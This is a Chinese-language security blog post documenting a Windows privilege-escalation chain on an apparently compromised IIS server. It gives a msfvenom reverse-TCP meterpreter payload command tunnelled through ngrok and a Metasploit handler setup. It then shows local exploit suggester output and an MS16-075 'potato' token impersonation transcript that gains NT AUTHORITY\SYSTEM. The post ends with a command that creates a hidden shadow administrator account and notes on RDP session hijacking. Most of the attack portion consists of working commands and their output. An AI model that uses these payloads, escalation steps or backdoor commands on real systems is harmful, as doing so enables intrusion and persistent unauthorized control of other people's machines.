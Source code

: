 ```yaml
---
layout: post
title: "记录基础提权过程"
subtitle: "记录基础提权过程"
date: 2019-08-12
author: ppbibo
category: security
finished: true
---
```

[TOC]

##### PS：

##### 这里主要记录下提权的过程，所以shell过程就不说了，前阵子经九世大佬传授内网渗透，复习AND总结。



## 0x1 

拿到shell 查看了一个当前的权限 `whoami`



查看进程 `tasklist` 发现无杀毒软件。



## 0x2 MSF+ngrok 反弹获取 meterpreter 

`ngrok tcp 4444`

![tiquan3](/static/img/tiquan3.png)

**msfvenom 制作木马&&上传到webshell中**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER IP> LPORT=<SERVER PORT> -f exe > /Users/ppbibo/Desktop/2.exe
```

**msfconsole 接收会话**

```bash
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run
```

尝试 `getsystem` 失败，执行 `shell` 进入到 dos 命令查看当前打的补丁`sysinfo`

```bash
>systeminfo
                  [01]: KB2894852
                  [02]: KB2894856
                  [03]: KB2896496
                  [04]: KB2919355
                  [05]: KB2919442
                  [06]: KB2934517
                  [07]: KB2934520
                  [08]: KB2938066
                  [09]: KB2938772
                  [10]: KB2949621
                  [11]: KB2954879
                  [12]: KB2955164
                  [13]: KB2959626
                  [14]: KB2965500
                  [15]: KB2966826
                  [16]: KB2966828
                  [17]: KB2967917
                  [18]: KB2968296
                  [19]: KB2971203
                  [20]: KB2972103
                  [21]: KB2972213
                  [22]: KB2973114
                  [23]: KB2973448
                  [24]: KB2975061
    							....... 此处省略一大堆
```

[提权辅助页面](https://bugs.hacking8.com/tiquan/)

进入到提权辅助页面进行比对，然后一个个的试= =



## MSF自动识别系统存在哪些漏洞并提供最合适的exp

```bash
use multi/recon/local_exploit_suggester
// 实战中我们在拿到一个反弹shell后(meterpreter)下一步会进行提权操作，而metaspolit的内置模块Local Exploit Suggester。这个模块可以帮助我们识别系统存在哪些漏洞可以被利用，并且为我们提供最合适的exp，通过这个exp我们可以进一步提权。
```

推荐下面几个exp

```bash
[+] 127.0.0.1 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.

[+] 127.0.0.1 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.

[+] 127.0.0.1 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.

[+] 127.0.0.1 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
```

测试均提示利用成功但没有会话返回，用九世哥哥的一句话就是毛用没有。

然后去之前的提权辅助页面进行 ms16_075 搜索看能不能利用

链接：https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075

利用方式在链接中给出来了 **RT：**

```bash
msf5 exploit(multi/handler) > set ExitOnsession false
ExitOnsession => false
msf5 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > load incognito 
Loading extension incognito...Success.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
No tokens available

meterpreter > execute -cH -f ./potato.exe
Process 3832 created.
Channel 1 created.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] User token NT AUTHORITY\SYSTEM not found
meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] User token NT AUTHORITY\SYSTEM not found
meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
No tokens available

meterpreter > execute -cH -f ./potato.exe
Process 1980 created.
Channel 2 created.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

执行的时候`SYSTEM` 的 `Impersonation Tokens Available` 会消失，多执行几遍就可以了，如上：

**拿到SYSTEM权限执行shell 进入到DOS命令下添加影子账户即可**

```bash
net user admin$ Passw@rd1. /add && net localgroup administrators admin$ /add
```

**RDP远程桌面端口查询**

**远程连接 RT:**



#### RID会话劫持，退出服务器。



## 总结

没啥总结的，做个笔记。

